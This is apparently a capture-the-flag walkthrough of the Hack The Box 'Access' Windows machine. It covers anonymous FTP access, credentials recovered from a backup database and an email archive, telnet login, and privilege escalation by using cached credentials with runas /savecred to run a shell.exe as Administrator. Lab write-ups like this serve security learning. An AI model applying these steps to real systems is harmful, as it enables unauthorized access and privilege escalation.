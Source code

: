 # Access

## Intro

Access is an easy rated windows machine from hack the box.

## Nmap

The following tcp ports are open.

```
21
23
80
```

## FTP

Anonymous login is available. Transferring files gives an error, so the following commands need to be executed first.

```
passive
binary
```

Tranfer the files.

```
backup.mdb
Access Control.zip
```

Using an online site to read the database tables from backup.mdb, the following creds are found.

```
admin:admin
engineer:access4u@security
backup_admin:admin
John Carter:020481
Mark Smith:010101
Sunita Rahman:000000
Mary Jones:666666
Monica Nunes:123321
```

## User

The password access4u@security enables unzipping.

The following command extracts the email from the .pst file.

```
readpst -S  'Access Control.pst'
```

User credentials which allow telnet access.

```
security:4Cc3ssC0ntr0ller
```

## Root

There is a lnk file in the public folder that when type'd shows the runas command used with /savecred.

The following command also shows the credentials have been cached.

```
cmdkey /list
```

After transferring a shell.exe to the machine, execute as administrator.

```
runas /user:ACCESS\Administrator /savecred "C:\Windows\Temp\shell.exe"
```
